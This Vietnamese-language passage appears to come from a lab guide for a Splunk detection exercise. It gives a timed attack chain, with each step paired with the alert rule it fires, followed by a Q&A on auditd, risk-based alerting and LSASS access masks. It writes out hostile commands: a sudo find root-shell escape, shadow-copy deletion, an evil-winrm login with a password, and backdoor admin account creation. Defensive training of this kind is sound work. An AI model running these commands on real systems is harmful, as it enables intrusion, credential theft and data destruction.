[20:00 - 25:00] BƯỚC 05: Leo quyền Root qua Sudo Find
                 ▶ Web Shell: `sudo /usr/bin/find . -exec /bin/sh \; -quit`
                 ▶ Splunk: Alert kích hoạt trên Rule 03 (Sudo GTFOBins).

[25:00 - 30:00] BƯỚC 06: Đọc trộm file cấu hình
                 ▶ Root Shell: `cat /var/www/html/dvwa/config/config.inc.php`
                 ▶ Splunk: Alert kích hoạt trên Rule 04 (Sensitive Config Read).

[30:00 - 40:00] BƯỚC 07: Tải Chisel và Thiết lập Reverse SOCKS Tunnel
                 ▶ Kali: `./chisel server` | Web: `/tmp/chisel client`
                 ▶ Splunk: Alert kích hoạt trên Rule 05 (Tunneling và Ingress Tools).

[40:00 - 45:00] BƯỚC 08: Quét cổng nội bộ và Mở Socat Port Forward
                 ▶ Web: `socat TCP-LISTEN:5555...` | Kali: `proxychains nmap`
                 ▶ Splunk: Alert kích hoạt trên Rule 06 (Internal Reconnaissance).

[45:00 - 55:00] BƯỚC 09: Di chuyển ngang qua Evil-WinRM
                 ▶ Kali: `evil-winrm -i 192.168.50.20 -u svc_backup -p P@ssw0rd2026! -P 5555`
                 ▶ Splunk: Alert kích hoạt trên Rule 07 (WinRM Network Logon).

[55:00 - 60:00] BƯỚC 10: Tạo tài khoản quản trị ngầm 'backdoor'
                 ▶ Windows Shell: `net user backdoor ... /add` và `net localgroup administrators ...`
                 ▶ Splunk: Alert kích hoạt trên Rule 08 (Admin Account Creation).

[60:00 - 68:00] BƯỚC 11: Tắt Defender và Dump LSASS qua ProcDump Service
                 ▶ Windows Shell: `Set-MpPreference` và tạo `DumpService`
                 ▶ Splunk: Alert kích hoạt trên Rule 09 (Defender Tamper) và Rule 10 (LSASS Dump).

[68:00 - 75:00] BƯỚC 12: Xóa Volume Shadow Copies (VSS)
                 ▶ Windows Shell: `vssadmin delete shadows /all /quiet`
                 ▶ Splunk: Alert kích hoạt trên Rule 11 (VSS Deletion).

[75:00 - 80:00] BƯỚC 13: Thực thi mã hóa tống tiền hàng loạt
                 ▶ Windows Shell: Chạy script XOR Byte Encryption trên `C:\Users\Public\LabData`
                 ▶ Splunk: Alert kích hoạt trên Rule 12 (Mass File Encryption).

[80:00 - 90:00] BƯỚC 14: Tổng kết và Đánh giá trên RBA Master Dashboard
                 ▶ Splunk: Chạy Master Correlation Search (Mục 8) để hiển thị biểu đồ Risk Score
                 ▶ Kết quả: Tạo 1 Notable Event duy nhất kể lại toàn bộ câu chuyện tấn công đa tầng!
```

---

## 13. Bảng Hỏi - Đáp Chuyên Sâu Khi Bảo Vệ / Trình Bày (Presentation Defense và Q&A)

??? question "Q1: Tại sao Web Access Log chỉ bắt được request GET mà không bắt được nội dung POST body? Khắc phục thế nào?"

    - **Nguyên nhân**: Mặc định các web server (Apache/Nginx) chỉ ghi nhận HTTP Headers, URL Path và Query String trong `access.log` để tối ưu hóa I/O disk và tránh ghi nhận dữ liệu nhạy cảm của người dùng (như mật khẩu trong POST form).
    - **Giải pháp khắc phục**:
    1. Sử dụng module WAF như **ModSecurity** trên Apache để log chi tiết request body vào `audit.log`.
    2. Giám sát hành vi tiến trình con ở tầng OS (Auditd Execve / Sysmon for Linux) khi webshell sinh ra tiến trình thực thi lệnh hệ điều hành.


??? question "Q2: Giá trị `auid=4294967295` trong Auditd mang ý nghĩa gì trong điều tra số?"

    - **Ý nghĩa kỹ thuật**: `auid` (Audit User ID) bằng `4294967295` tương ứng với giá trị nhị phân `0xFFFFFFFF` (`-1` không dấu), đại diện cho trạng thái **"unset" (chưa đăng nhập)**.
    - **Ý nghĩa phát hiện**: Bất kỳ tiến trình nào chạy bởi service daemon (như Apache/PHP-FPM) hoặc sinh ra từ một cuộc tấn công từ xa (như Web Shell / RCE) đều mang `auid` unset vì chúng không trải qua quá trình xác thực đăng nhập qua PAM/SSH/Console. Do đó, nếu một tiến trình có `auid=4294967295` mà thực hiện đọc file cấu hình quản trị thì đây là chỉ số bất thường cực kỳ đáng tin cậy.


??? question "Q3: Tại sao cần áp dụng Risk-Based Alerting (RBA) thay vì alert độc lập từng rule?"

    - **Vấn đề thực tế**: Nếu bắn alert đơn lẻ cho 12 rules, một cuộc tấn công sẽ tạo ra hàng chục thông báo rời rạc, làm phân mảnh bối cảnh điều tra và dẫn đến **Alert Fatigue** (quá tải cảnh báo).
    - **Lợi ích của RBA**:
    1. Gán điểm rủi ro (*Risk Score*) cho từng thực thể (Entity: Host/User).
    2. Tự động tương quan nhiều giai đoạn tấn công khác nhau theo thời gian.
    3. Gom toàn bộ chuỗi tấn công thành **1 Notable Event duy nhất**, giúp SOC Analyst nắm bắt trọn vẹn câu chuyện tấn công (*Attack Story*) từ bước xâm nhập ban đầu đến đích cuối cùng.


??? question "Q4: Tại sao `GrantedAccess=0x1010` lại thường bị bỏ sót trong phát hiện LSASS Dumping?"

    - **Giải thích**: Nhiều SOC Analyst chỉ cấu hình bắt quyền tối đa `0x1fffff` (PROCESS_ALL_ACCESS) hoặc `0x1410`. Tuy nhiên, các kỹ thuật dump hiện đại (và một số biến thể Mimikatz/Dumpert) chỉ yêu cầu quyền tối thiểu `PROCESS_QUERY_LIMITED_INFORMATION` (`0x1000`) kết hợp với `PROCESS_VM_READ` (`0x0010`) $\rightarrow$ Tạo thành mask `0x1010`. Nếu luật phát hiện không bao gồm `0x1010`, kẻ tấn công có thể dễ dàng bypass hệ thống SIEM.


---

## 14. Tài Liệu Tham Khảo (References)

- **MITRE ATT&CK Framework Enterprise**: [https://attack.mitre.org/](https://attack.mitre.org/)
- **GTFOBins Curated Unix Binaries**: [https://gtfobins.github.io/](https://gtfobins.github.io/)
- **LOLBAS Windows Living Off The Land**: [https://lolbas-project.github.io/](https://lolbas-project.github.io/)
- **Splunk Enterprise Security RBA Guide**: [https://docs.splunk.com/Documentation/ES/latest/User/RiskBasedAlerting](https://docs.splunk.com/Documentation/ES/latest/User/RiskBasedAlerting)
- **SwiftOnSecurity Sysmon Configuration**: [https://github.com/SwiftOnSecurity/sysmon-config](https://github.com/SwiftOnSecurity/sysmon-config)
- **Obsidian Agent Skills Specification**: [https://github.com/kepano/obsidian-skills](https://github.com/kepano/obsidian-skills)
